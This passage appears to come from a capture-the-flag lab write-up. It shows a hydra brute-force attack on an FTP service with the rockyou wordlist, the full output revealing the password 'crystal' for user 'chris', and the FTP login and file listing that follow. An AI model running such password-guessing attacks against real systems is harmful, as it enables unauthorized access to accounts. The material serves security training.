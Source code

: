 Now we have a username. From here, we use *hydra* to figure out the FTP password:<br><br>

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt -vV agent ftp -I

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-18 14:08:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://agent:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target agent - login "chris" - pass "jesus1" - 248 of 14344399 [child 9] (0/0)
[ATTEMPT] target agent - login "chris" - pass "crystal" - 249 of 14344399 [child 8] (0/0)
[ATTEMPT] target agent - login "chris" - pass "celtic" - 250 of 14344399 [child 3] (0/0)
[21][ftp] host: agent   login: chris   password: crystal
[STATUS] attack finished for agent (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-18 14:10:31
```

Using the discovered password, we login to the FTP server and find 3 files:<br><br>

```
ftp agent
Connected to agent.
220 (vsFTPd 3.0.3)
Name (agent:): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
425 Failed to establish connection.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,245,160,185,6).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

**To_AgentJ.txt**<br><br>
